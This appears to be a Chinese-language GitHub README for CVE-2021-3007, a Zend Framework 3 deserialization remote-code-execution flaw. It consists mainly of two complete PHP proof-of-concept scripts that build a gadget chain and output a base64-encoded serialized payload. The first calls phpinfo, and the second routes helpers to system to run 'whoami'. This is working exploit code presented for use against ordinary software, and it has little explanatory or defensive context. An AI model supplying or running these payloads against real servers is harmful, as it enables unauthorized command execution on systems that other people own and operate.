


# CVE-2021-3007 zend framework3 反序列化 rce

详细分析：https://github.com/Ling-Yizhou/zendframework3-/blob/main/zend%20framework3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20rce.md

PoC1:

```php
<?php

namespace Zend\Http\Response {
    class Stream
    {
        protected $cleanup = true;
        protected $streamName;

        public function __construct($streamName)
        {
            $this->streamName = $streamName;
        }
    }
}

namespace Zend\View\Helper{
    class Gravatar{
        protected $view;
//        protected $attributes = ["whoami"=>'a'];
        protected $attributes = [1=>'a'];
        public function __construct($view)
        {
            $this->view=$view;
        }
    }
}

namespace Zend\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        public function __construct($__helpers)
        {
            $this->__helpers = $__helpers;
        }
    }
}
namespace Zend\Config{
    class ReaderPluginManager{
        protected $services;
        protected $instanceOf ="Zend\Validator\Callback";
        public function __construct($services){
            $this->services = ["escapehtml"=>$services,"escapehtmlattr"=>$services];
        }
    }
}
namespace Zend\Validator{
    class Callback{
        protected $options = [
            'callback'         => 'phpinfo',
            'callbackOptions'  => []
        ];
    }
}

namespace {
    $e = new Zend\Validator\Callback();
    $d = new Zend\Config\ReaderPluginManager($e);
    $c = new Zend\View\Renderer\PhpRenderer($d);
    $b = new Zend\View\Helper\Gravatar($c);
    $a = new Zend\Http\Response\Stream($b);
    echo base64_encode(serialize($a));
}
```



PoC2:

```php
<?php

namespace Zend\Http\Response {
    class Stream
    {
        protected $cleanup = true;
        protected $streamName;

        public function __construct($streamName)
        {
            $this->streamName = $streamName;
        }
    }
}

namespace Zend\View\Helper{
    class Gravatar{
        protected $view;
//        protected $attributes = ["whoami"=>'a'];
        protected $attributes = ['whoami'=>1];
        public function __construct($view)
        {
            $this->view=$view;
        }
    }
}

namespace Zend\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        public function __construct($__helpers)
        {
            $this->__helpers = $__helpers;
        }
    }
}

namespace Zend\Config{
    class Config{
        protected $data = [
            "escapehtml"=>'system',
            "escapehtmlattr"=>'phpinfo'
        ];
    }
}

namespace {
    $d = new Zend\Config\Config();
    $c = new Zend\View\Renderer\PhpRenderer($d);
    $b = new Zend\View\Helper\Gravatar($c);
    $a = new Zend\Http\Response\Stream($b);
    echo base64_encode(serialize($a));
}
```


